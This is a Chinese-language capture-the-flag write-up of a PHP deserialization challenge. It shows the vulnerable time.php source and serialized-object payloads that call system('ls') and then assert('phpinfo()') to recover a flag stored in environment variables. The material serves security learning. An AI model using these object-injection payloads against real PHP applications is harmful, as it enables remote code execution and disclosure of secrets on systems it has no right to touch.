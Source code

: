 ![](<./img/Pasted image 20221201150134.png>)

---
首页长这样

![](<./img/Pasted image 20221201150215.png>)

查看前端代码，尝试寻找注入

![](<./img/Pasted image 20221201150309.png>)

```php
/time.php?source
```

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);

```

看样子是个简单的反序列化，尝试以下payload
```php
/time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:2:"ls";s:1:"b";s:6:"system";}
```
![](<./img/Pasted image 20221201154452.png>)

并没有反应，看来是`system`被ban了

`eval`作为特殊形式，本身不是函数，所以不能使用

尝试用`file_get_contents`读出和构造匿名函数，结果都失败了QAQ，一是不知道`flag`在什么文件里，二是匿名函数不能序列化

看网上大佬用的`assert`才想起来还有这玩意

`flag`不知道在哪个文件里，答案是作为环境变量了，要通过`phpinfo()`获得
```php
/time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}
```

![](<./img/Pasted image 20221201170810.png>)

这个在本地机上咋也跑不起来QAQ，然后查文档发现是本地机`php`版本太高了

![](<./img/Pasted image 20221201165741.png>)

![](<./img/Pasted image 20221201165815.png>)

#Web #PHP #反序列化 #bypass #assert #function #环境变量